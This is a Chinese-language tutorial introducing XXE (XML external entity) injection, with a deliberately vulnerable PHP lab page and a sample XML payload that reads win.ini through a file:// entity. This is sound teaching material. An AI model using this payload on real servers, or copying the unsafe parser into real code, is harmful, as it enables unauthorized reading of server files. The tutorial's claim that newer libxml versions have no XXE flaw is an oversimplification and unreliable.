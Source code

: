 # XML外部实体注入

## XXE漏洞简介

- XXE漏洞全称XML External Entity Injection，即XML外部实体注入。
- XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件和代码，造成任意文件读取、命令执行、内网端口扫描、攻击内网网站、发起Dos攻击等危害。
- XXE漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。
- 解析xml在php库libxml，libxml>=2.9.0的版本中没有XXE漏洞。
- simplexml_load_string()可以读取XML

## 测试环境搭建

现有xxe.php文件代码

```php
<?php
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile);
$xml = simplexml_import_dom($dom);
$xxe = $xml->xxe;
$str = "$xxe \n";
echo $str;
?>
```

代码说明：

> file_get_contents 获取客户端输入内容
> new DOMDocument() 初始化 XML 解析器
> loadXML($xmlfile) 加载客户端输入的 XML 内容
> simplexml_import_dom($dom) 获取 XML 文档节点，如果成功则返回 SimpleXMLElement 对象，如果失败则返回 FALSE 。
> 获取 SimpleXMLElement 对象中的节点 XXE ，然后输出 XXE 内容。

提交数据

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "file:///C://Windows//win.ini">
]>
<xml>
    <xxe>&file;</xxe>
</xml>
```
